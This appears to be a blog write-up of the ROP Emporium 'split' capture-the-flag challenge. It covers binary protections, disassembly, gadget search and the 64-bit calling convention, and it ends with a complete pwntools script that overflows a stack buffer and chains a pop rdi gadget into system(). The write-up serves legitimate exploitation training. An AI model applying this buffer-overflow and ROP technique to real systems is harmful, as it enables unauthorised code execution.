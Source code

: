 ```yaml
---
title: 'Return-Oriented Programming - Split'
date: '2021-12-20'
tags: ['ropemporium', 'rop', 'pwn']
draft: false
summary: Combine elements from the ret2win challenge that have been split apart to beat this challenge. Learn how to use another tool whilst crafting a short ROP chain.
layout: PostLayout
images: '/static/images/ropemporium/split.jpg'

canonicalUrl:
---
```


## Introduction

Challenge Description

> The elements that allowed you to complete ret2win are still present, they've just been split apart.
> Find them and recombine them using a short ROP chain

The goal of this challenge is to understand how function arguments are passed in 64bit machine when doing return oriented programming. The target binary can be downloaded from the authors website [ropemporium](https://ropemporium.com).

First we check the binary protections enabled on the downloaded. Only **NX** (Not executable) is enabled on the device according to `checksec` binary utility as shown in the image below.

```bash
vx@archie:split$ checksec --file=split
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

From analysis of binary we use gdb debugger in order to analyze the functions present in the binary in order to understand the logic. We disassemble **pwnme** function as in the image below.The function looks familiar as for the ret2win function.

```nasm
(gdb) disas pwnme
Dump of assembler code for function pwnme:
   0x00000000004006e8 <+0>:	push   rbp
   0x00000000004006e9 <+1>:	mov    rbp,rsp
   0x00000000004006ec <+4>:	sub    rsp,0x20
   0x00000000004006f0 <+8>:	lea    rax,[rbp-0x20]
   0x00000000004006f4 <+12>:	mov    edx,0x20
   0x00000000004006f9 <+17>:	mov    esi,0x0
   0x00000000004006fe <+22>:	mov    rdi,rax
   0x0000000000400701 <+25>:	call   0x400580 <memset@plt>
   0x0000000000400706 <+30>:	mov    edi,0x400810
   0x000000000040070b <+35>:	call   0x400550 <puts@plt>
   0x0000000000400710 <+40>:	mov    edi,0x40083c
   0x0000000000400715 <+45>:	mov    eax,0x0
   0x000000000040071a <+50>:	call   0x400570 <printf@plt>
   0x000000000040071f <+55>:	lea    rax,[rbp-0x20]
   0x0000000000400723 <+59>:	mov    edx,0x60
   0x0000000000400728 <+64>:	mov    rsi,rax
   0x000000000040072b <+67>:	mov    edi,0x0
   0x0000000000400730 <+72>:	call   0x400590 <read@plt>
   0x0000000000400735 <+77>:	mov    edi,0x40083f
   0x000000000040073a <+82>:	call   0x400550 <puts@plt>
   0x000000000040073f <+87>:	nop
   0x0000000000400740 <+88>:	leave
   0x0000000000400741 <+89>:	ret
End of assembler dump.
(gdb)
```

From the above code, we are filling a buffer of size 0x20(32bytes) with a constant byte of zero. **memset** is used to overwrite any values that is present in the memory area specified. The memory region we are overwriting is [rbp-0x20]. This means we are allocating a memory buffer of size 32bytes from the boundary of base pointer address in the stack.

![](/static/images/ropemporium/stack.png)

Next function is **read** function, which reads for user input from the standard input file descriptor and stores in the specified buffer. From disassembled code, we are reading **0x60** bytes from the user input and storing it in our buffer. This means we are reading more than what the buffer can hold therefore leading to a stack buffer overflow.

```c
ssize_t read(int fd, void *buf, size_t count);
```

For this challenge we don`t have a ret2win function which we are to return to. From the disassembly of the binary we have an interesting function called **usefulFunction**. The usefulFunction, does listing of the files in the directory when called by the function.

```nasm
(gdb) disas usefulFunction
Dump of assembler code for function usefulFunction:
   0x0000000000400742 <+0>:	push   rbp
   0x0000000000400743 <+1>:	mov    rbp,rsp
   0x0000000000400746 <+4>:	mov    edi,0x40084a
   0x000000000040074b <+9>:	call   0x400560 <system@plt>
   0x0000000000400750 <+14>:	nop
   0x0000000000400751 <+15>:	pop    rbp
   0x0000000000400752 <+16>:	ret
End of assembler dump.
(gdb) x/s 0x40084a
0x40084a:	"/bin/ls"
(gdb)
```

Goal is to pass a different string to the system function instead of **"/bin/ls"**

From the authors hint, we can look for useful hints in the binary using either radare2 or rizin. Both tools perform the same function, it is a matter of choice.

> Now that you've gathered the elements of your exploit you can start to piece them together, you want to call system() with the **"/bin/cat flag.txt"** string as the only argument. You'll also have to start dealing with the differences between the various architectures' calling conventions.

Opening the binary in radare2, we can use **iz** command to look for strings. The goal is to read the flag from the system.

```nasm
[0x004005b0]> iz
nth paddr      vaddr      len size section type  string
---------------------------------------------------------------------------------------------
0   0x000007e8 0x004007e8 21  22   .rodata ascii split by ROP Emporium
1   0x000007fe 0x004007fe 7   8    .rodata ascii x86_64\n
2   0x00000806 0x00400806 8   9    .rodata ascii \nExiting
3   0x00000810 0x00400810 43  44   .rodata ascii Contriving a reason to ask user for data...
4   0x0000083f 0x0040083f 10  11   .rodata ascii Thank you!
5   0x0000084a 0x0040084a 7   8    .rodata ascii /bin/ls
0   0x00001060 0x00601060 17  18   .data   ascii /bin/cat flag.txt

```

We have an important string **"/bin/cat flag.txt"** which will enable us to complete our goal. Now we need pass the string to system function as follows **system('/bin/cat flag.txt')**.

For building ropchain, we need to understand the calling conventions of **AMD64 ABI**.The calling convention passes the arguments to the registers in the following order **RDI, RSI, RDX, RCX, R8 and R9**.

Because the system function receives one argument, we need to look for one gadgets that we control the **rdi** address.

**What are gadgets?**
Gadgets are sequence of instructions the end with ret instruction. Because we want to load a value into rdi register, we look for a pop **pop rdi; ret** instruction in order to pass an argument to the system function.

For searching gadget in radare2/rizin, use **/R** command as shown in the image below.

![](/static/images/ropemporium/split_poprdi.png)
Now we need to chain ropchain exploit as shown in the image below.

![ropchain](/static/images/ropemporium/popgadget.png)

The goal is to overwrite the return address with the address of **"pop rdi, ret "** and then call system function. we need to fill the buffer memory with 32bytes, 8 bytes more to overwrite the rbp address and 8 bytes teo overwrite the return address with pop rdi address.

## Exploit

Full exploit of split challenge is;

```python
import pwn

pwn.context.encoding = "latin-1"
pwn.warnings.simplefilter("ignore")
pwn.context.arch = "amd64"

io = pwn.process("./split")

system_addr = pwn.p64(0x400560)   #address of system
pop_rdi_ret = pwn.p64(0x004007c3)  # pop rdi; ret gadget
bin_cat_addr = pwn.p64(0x00601060)  #bin cat flag.txt address

payload = b"A" * 32  #fill the buffer
payload += b"B" *8   # overwrite  rbp
payload += pop_rdi_ret # pop rdi gadget
payload += bin_cat_addr # argument passed to the system function
payload += system_addr   #call system

io.writeafter('>', payload)

pwn.info(io.clean().decode())
```

Running the above code we get a flag.

![](/static/images/ropemporium/split_flag.png)

> **To avoid the segmentation fault of the above, we can overwrite the rbp address with exit function address in order to exit without segfault.**
